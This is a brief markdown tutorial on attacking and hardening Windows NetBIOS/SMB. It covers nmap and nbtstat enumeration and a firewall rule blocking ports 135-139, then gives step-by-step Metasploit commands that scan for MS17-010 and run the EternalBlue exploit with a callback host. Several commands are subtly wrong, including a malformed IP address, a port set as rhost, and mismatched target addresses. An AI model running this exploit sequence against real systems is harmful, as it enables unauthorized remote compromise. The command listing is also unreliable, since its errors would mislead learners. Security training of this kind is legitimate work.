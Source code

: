 # NetBIOS/SMB Penetration on Windows

---

### Scanning open port for NetBIOS Enumeration

> You will scan the target network for open TCP and UDP ports and protocol.

```bash
nmap -sT -sU 192.168.1.128
```

#### Ports That Open

### 

## You Can Enumerate The Network Using Nbtstat

```bash
nbtstat -a 192.168.1.128
```

### Hardening The Targeted System

#### Open Windows Firewall Settings

#### Filtering Ports 135-139

> 1. Click on Inbound Rules
> 2. Click NEW RULE
> 3. Click Button for port to create new rule \(TCP or UDP\)
> 4. Click Next
> 5. Click UDP port to apply rule
> 6. Click next
> 7. Chose Block Connection

#### Scan Target System Again

```
nbtstat -a 192.168.1.128
```

#### 

## Exploit Target System Using Metasploit

```
msf > search smb_ms17_010

msf > Use auxiliary/scanner/smb/smb_ms17_010

msf auxiliary(smb_ms17_010) > set rhost 192.168.1.28

msf auxiliary(smb_ms17_010) > set port 445

msf auxiliary(smb_ms17_010) > exploit
```

### Exploit Results

> From the results you will see that the system is vulnerable to the scan

```
search smb_ms17_010_eternalblue

use exploit/windows/smb/ms17_010_eternalblue

msf exploit(ms17_010_eternalblue) > set rhost 192.168.1.1.128

msf exploit(ms17_010_eternalblue) > set rhost 445

msf exploit(ms17_010_eternalblue) > set lhost 192.168.1.115

msf exploit(ms17_010_eternalblue) > exploit
```















